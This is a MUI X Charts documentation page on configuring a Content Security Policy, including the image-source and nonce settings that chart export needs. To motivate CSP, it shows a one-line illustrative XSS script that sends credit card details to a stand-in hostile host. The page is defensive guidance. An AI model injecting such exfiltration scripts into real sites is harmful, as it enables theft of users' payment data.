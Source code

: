```yaml
---
title: Content Security Policy (CSP)
productId: x-charts
---
```


# Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a Content Security Policy.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).

## Setting up a CSP

MUI X Charts depends on Material UI, thus to set up a CSP, you need to follow Material UI's [CSP implementation guide](/material-ui/guides/content-security-policy/#how-does-one-implement-csp).

### CSP for exporting

MUI X Charts allow [exporting charts](/x/react-charts/export/) as images or PDFs.
When a Content Security Policy is set, exporting requires additional configuration to function.

To enable exporting with CSP, you need to allow the use of `data:` and `blob:` URIs for images. This can be done by adding the following directives to your CSP header:

```
Content-Security-Policy: img-src 'self' data: blob:;
```

If your CSP defines a nonce for scripts or styles (e.g. `script-src 'nonce-<value>'`), you also need to provide the same nonce when exporting.

This can be done by passing the nonce to the `printOptions` and `imageExportOptions` props of the `toolbar` slot.

```tsx
<LineChartPro
  {...settings}
  showToolbar
  slotProps={{
    toolbar: {
      printOptions: { nonce },
      imageExportOptions: [
        { type: 'image/png', nonce },
        { type: 'image/jpg', nonce },
        { type: 'image/webp', nonce },
      ],
    },
  }}
/>
```
